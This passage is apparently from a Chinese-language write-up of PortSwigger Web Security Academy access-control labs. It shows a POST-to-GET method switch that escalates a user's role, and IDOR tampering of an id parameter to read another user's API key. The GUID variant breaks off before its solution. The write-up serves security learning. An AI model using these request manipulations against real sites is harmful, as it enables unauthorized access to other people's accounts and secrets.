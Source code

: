 接下來登入普通使用者，取得普通使用者的 Session 發跟上面一樣的 POST，但失敗了


結果把 POST 改 GET 就過了
```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
```


## [Lab: User ID controlled by request parameter ](https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented)
### 題目敘述
 This lab has a horizontal privilege escalation vulnerability on the user account page.

To solve the lab, obtain the API key for the user carlos and submit it as the solution.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
平行權限存取，改 id 可以看到其他人的東西

### 解答
按到 My account 會出現 
```
https://ac6f1f941f67b407c0b21d20001e00c2.web-security-academy.net/my-account?id=wiener
```

把 id 改成 carlos

```
https://ac6f1f941f67b407c0b21d20001e00c2.web-security-academy.net/my-account?id=carlos
```

就能取得 API KEY 了

## [Lab: User ID controlled by request parameter, with unpredictable user IDs ](https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-unpredictable-user-ids)
### 題目敘述
 This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

To solve the lab, find the GUID for carlos, then submit his API key as the solution.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
### 解答

用前一題的方法，觀察自己的 id 發現是一段奇怪的 GUID
```
https://ac7e1fd91ec355adc0e672a800c50010.web-security-academy.net/my-account?id=1d6de5a7-e0a8-4668-940e-1339025d9592
```
